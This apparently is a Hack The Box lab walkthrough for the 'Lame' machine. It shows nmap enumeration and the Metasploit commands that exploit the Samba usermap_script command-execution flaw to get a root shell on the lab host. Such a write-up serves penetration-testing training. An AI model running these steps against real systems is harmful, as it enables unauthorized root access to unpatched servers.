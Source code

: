 ```yaml
---
title: Lame
date: 2020-05-02 11:29:00
description: HTB Walkthrough
featured_image: '/images/blog/lame/lame.jpg'
categories: htb
---
```


Lame was the first box released in Hack The Box (HTB). It's a good box to start with for anyone new to penetration testing since it's a relatively easy and gets you familiar with using Metasploit.

## Hack The Box

* Operating System: Linux
* Difficulty: Easy

## Enumeration

As always, let's start with enumeration by using nmap. I like to use:

<img src="/images/blog/lame/ipaddress.jpg" alt="nmap scan">

	PORT     STATE SERVICE     VERSION
	21/tcp   open  ftp         vsftpd 2.3.4
	|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
	| ftp-syst: 
	|   STAT: 
	| FTP server status:
	|      Connected to 10.10.14.35
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      vsFTPd 2.3.4 - secure, fast, stable
	|_End of status
	22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	| ssh-hostkey: 
	|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
	|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
	139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	Aggressive OS guesses: Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.18 (ClarkConnect 4.3 Enterprise Edition) (92%)
	No exact OS matches for host (test conditions non-ideal).
	Network Distance: 2 hops
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


Taking a look at the results, the most interesting ports are port 139 and 445 since they are SMB ports, and SMB is a common internet file system that is known to have vulnerabilities. We can also see that they are both currently running <i>Samba smbd 3.X - 4.X</i>, so we can take a look in Metasploit to see if we can find any exploits. 

To access Metasploit, we can enter in Terminal:

`msfconsole`

It takes a few minutes for Metasploit to open. Once it opens, we can search for an exploit that is related to Samba by using Metasploit's search feature:

`search samba`

From the search results, this one looks promising:

<img src="/images/blog/lame/exploit.jpg" alt="exploit">

And based on the description, it says:

<i>This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!</i>

So let's try using it!

## Exploitation

To use an exploit, we can type in Metasploit:

`use exploit/multi/samba/usermap_script`

<img src="/images/blog/lame/metasploit.jpg" alt="using metasploit">

Now we need to configure the exploit so we can use it to attack the machine.

* `options`: Gives us the visibility on what options we have to configure the exploit.
* `set rhosts 10.10.10.3`: This would be the victim's IP address.
* `show targets`: This is where we select the target's type (e.g. OS) that we're exploiting.
* `exploit`: Running the exploit.

That worked! We now have access to the machine.

We can type `shell` to see if we can gain shell access.

<img src="/images/blog/lame/shell.jpg" alt="obtaining a shell">

Once we have shell access, we can type in:

* `whoami`: Tells us the type of privileges that we have. It looks like we have root access--perfect.
* `pwd`: In other words, print working directory. We can see that we're in the /root folder.

Since we have root access, we can locate both the root.txt and user.txt file to win the game. Remember to `cat` the file once you find it so you can read the contents and enter the flag into HTB.

Congratulations! We now have root access to the box Lame.

## Conclusion

Leaving network ports open in general is a huge security risk, especially if there are no controls implemented to keep it secure. When it came to the HTB Lame, we found out that the SMB port was running a version of Samba that was vulnerable to an exploit that allowed us to gain system access. 